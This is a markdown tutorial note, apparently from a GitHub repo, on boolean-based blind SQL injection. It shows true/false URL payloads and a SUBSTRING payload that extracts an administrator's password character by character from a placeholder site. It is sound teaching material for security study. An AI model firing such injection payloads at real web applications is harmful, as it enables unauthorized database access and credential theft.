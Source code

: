 ## Inferential (Blind) SQL Injection
- SQLi vulnerability where there is no actual transfer of data via the web 
application which forces the attacker to steal data by asking the database a series of True abd False questions
- Just as dangerous as in-band SQL injection
 - Attacker able to reconstruct the information by sending particular requests
and observing the resulting behavior of the DB Server.
- Takes longer and good skillset to exploit than in-band SQL injection
- Two common types of blind SQLi 
  - Boolean-based SQLi
  - Time-based SQLi
  
 ### Boolean-Based Blind SQLi
 - Boolean-based SQLi is a blind SQLi technique that uses Boolean conditions to return a different result depending on whether the query returns a TRUE or FALSE result
 
 Example URL:
 ``` 
 http://www.random.com/app.php?id=1
 ```
Backend Query:
```
select title from product where id =1
```
Payload #1 (False):
```
 http://www.random.com/app.php?id=1 and 1=2
```
Backend Query:
```
select title from product where id =1 and 1=2 
```
Payload #2 (True):
```
http://www.random.com/app.php?id=1 and 1=1
```
Backend Query:
```
select title from product where id =1 and 1=1

```
- If the application response differently in True vs False payload, then it is vulnerable to Boolean based blind SQLi.

- How to use the above True or False to deduce --> 

Users Table:
```
Administrator / e3c33e889e0e1b62cb7f65c63b60c42bd77275d0e730432fc37b7e624b09ad1f
```
Payload:
```
www.random.com/app.php?id=1 and SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's'
```
Backend Query:
```
select title from product where id =1 and SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's'
```
